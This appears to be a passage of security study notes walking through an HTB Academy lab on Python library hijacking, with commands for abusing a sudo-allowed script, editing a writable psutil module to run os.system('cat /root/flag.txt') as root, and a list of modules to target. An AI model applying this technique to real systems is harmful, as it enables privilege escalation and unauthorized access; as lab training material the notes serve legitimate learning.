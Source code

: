 ### HTB Academy Lab Example
```bash
# 1. Connect to target
ssh htb-student@target

# 2. Check environment
ls  # mem_status.py
cat mem_status.py
# #!/usr/bin/env python3
# import psutil
# available_memory = psutil.virtual_memory().available * 100 / psutil.virtual_memory().total

# 3. Check sudo permissions
sudo -l
# (ALL) NOPASSWD: /usr/bin/python3 /home/htb-student/mem_status.py

# 4. Find writable psutil module
grep -r "def virtual_memory*" /usr/
ls -l /usr/local/lib/python3.8/dist-packages/psutil/__init__.py
# -rw-r--r-- 1 htb-student staff 87657 Jun 8 09:21

# 5. Edit psutil module
vim /usr/local/lib/python3.8/dist-packages/psutil/__init__.py
# In virtual_memory() function, add:
# import os
# os.system('cat /root/flag.txt')

# 6. Execute for flag
sudo /usr/bin/python3 /home/htb-student/mem_status.py
# Result: HTB{...
```

## 🔧 Common Python Modules to Target

### Frequently Imported Modules
```bash
# Common targets for hijacking
os, sys, subprocess, socket
requests, urllib, json
psutil, pandas, numpy
flask, django, tornado
```

### Module Discovery in Scripts
```bash
# Extract imports from Python scripts
grep -E "^import |^from .* import" script.py

# Find all Python scripts and their imports
find / -name "*.py" -exec grep -l "import" {} \; 2>/dev/null
```

---

*Python library hijacking exploits the module import system - writable library paths, path precedence, and environment variable manipulation can redirect imports to malicious code for privilege escalation.* 